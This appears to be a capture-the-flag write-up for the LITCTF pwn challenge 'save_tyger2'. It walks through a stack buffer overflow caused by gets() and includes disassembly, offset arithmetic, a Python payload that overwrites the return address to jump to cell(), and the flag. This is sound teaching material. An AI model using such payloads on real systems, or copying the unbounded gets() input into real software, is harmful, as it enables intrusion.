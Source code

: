 # pwn/save_tyger2

## Challenge

Tyger needs your help again.
<br>
Connect with `nc litctf.live 31788`

[`save_tyger2`](https://drive.google.com/file/d/1qCSTo01YjzrncT0SZGOTouC4egY_q-PX/view)

## Solution

Like [last time](./save_tyger.md), we're given a C file (and the executable):
```c
#include <stdlib.h>
#include <stdio.h>

void cell(){
	printf("Thank god you got him out of this cockroach-infested cell!\n");
	FILE *f = fopen("flag.txt", "r");
	char flag[64];
	if(f == NULL){
		printf("Something went wrong. Please let Eggag know.\n");
		exit(1);
	}
	fgets(flag, 64, f);
	puts(flag);
    exit(0);
}

int main(){
	char buf[32];
	printf("NOOOO, THEY TOOK HIM AGAIN!\n");
	printf("Please help us get him out or there is no way we will be able to prepare LIT :sadness:\n");
	gets(buf);
}
```
This is another classic problem.

We need to somehow call `cell()`. Note the usage of `gets` for input, which lets us write arbitrarily many characters, so we can overflow `buf` into the return address. We now look in the executable (`objdump -d`) for the address of `cell()`, and where `buf` is stored:
```
0000000000401162 <cell>:
...
00000000004011cd <main>:
  4011cd:	55                   	push   %rbp
  4011ce:	48 89 e5             	mov    %rsp,%rbp
  4011d1:	48 83 ec 20          	sub    $0x20,%rsp
  4011d5:	bf 7d 20 40 00       	mov    $0x40207d,%edi
  4011da:	e8 51 fe ff ff       	callq  401030 <puts@plt>
  4011df:	bf a0 20 40 00       	mov    $0x4020a0,%edi
  4011e4:	e8 47 fe ff ff       	callq  401030 <puts@plt>
  4011e9:	48 8d 45 e0          	lea    -0x20(%rbp),%rax <- buf
  4011ed:	48 89 c7             	mov    %rax,%rdi
  4011f0:	b8 00 00 00 00       	mov    $0x0,%eax
  4011f5:	e8 56 fe ff ff       	callq  401050 <gets@plt>
...
```
`cell()` is at `0x0000000000401162` (addresses are 64-bit, or 8 bytes). `buf` is at `%rbp - 0x20`.
That means we need `0x20 = `32 bytes to reach `%rbp`, which points to the address of the previous stack frame, which is 8 bytes long.
Past that is the return address location, so we need to skip 40 bytes total.
So we need to send 40 junk characters, and then `0x0000000000401162`:
```py
print("a"*40+"6211400000000000".decode("hex"))
```
Note the leading/trailing 0s are important, to overwrite the entirety of the original address.

Pipe the Python output into the netcat command, and we get our flag.

## Flag

`LITCTF{w3_w0nt_l3t_th3m_t4k3_tyg3r_3v3r_4gain}`
